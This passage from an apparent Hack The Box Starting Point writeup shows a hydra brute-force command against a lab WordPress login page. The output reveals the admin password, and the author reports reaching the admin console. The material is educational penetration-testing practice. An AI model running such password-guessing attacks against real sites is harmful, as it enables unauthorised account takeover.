 ```none
---------------------------------------------------------------------------------- ---------------------------------
```

The only interesting exploits found in the search were against plugins, and not the core WordPress software. Moving on.

Given that we don't have any good WordPress exploits, and that we know the WordPress username... it seems like password guessing is our best option. This also seems like a continual trend in the Starting Point machines. If you have followed my other Starting Point writeups - you would have noticed we are continually saving creds from each machine. Time to fire up `hydra`, with the following command.

```none
└─$ hydra -l admin -P ../creds/passwords 10.10.10.29 http-post-form "/wordpress/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.10.29%2Fwordpress%2Fwp-admin%2F&testcookie=1:incorrect"
```

I constructed the HTTP form part of the `hydra` command by intercepting a login attempt from the website. This is good practice and has worked well for me in the past - compared to Googling a tutorial and using that to form a command. The intercept a request method is good, as the input or format of requests may change between releases.

Looks like this was the correct method, as we found a password quickly.

```none
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-07-28 07:50:05
[DATA] max 7 tasks per 1 server, overall 7 tasks, 7 login tries (l:1/p:7), ~1 try per task
[DATA] attacking http-post-form://10.10.10.29:80/wordpress/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.10.29%2Fwordpress%2Fwp-admin%2F&testcookie=1:incorrect
[80][http-post-form] host: 10.10.10.29   login: admin   password: P@s5w0rd!
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-07-28 07:50:13
```

Success! And got the WordPress admin console!

